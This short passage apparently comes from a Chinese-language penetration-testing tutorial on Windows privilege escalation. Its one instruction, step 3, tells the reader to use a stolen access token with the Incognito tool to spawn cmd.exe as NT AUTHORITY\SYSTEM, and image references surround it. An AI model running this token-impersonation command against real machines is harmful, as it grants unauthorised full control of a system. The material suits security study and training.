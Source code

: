 ![image-20241017000106530](操作系统提权/image-20241017000106530.png)	

```
3、使用窃取的令牌进行提权，此时使用whoami就是system权限了。
incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe
```

![image-20241017000359876](操作系统提权/image-20241017000359876.png)	
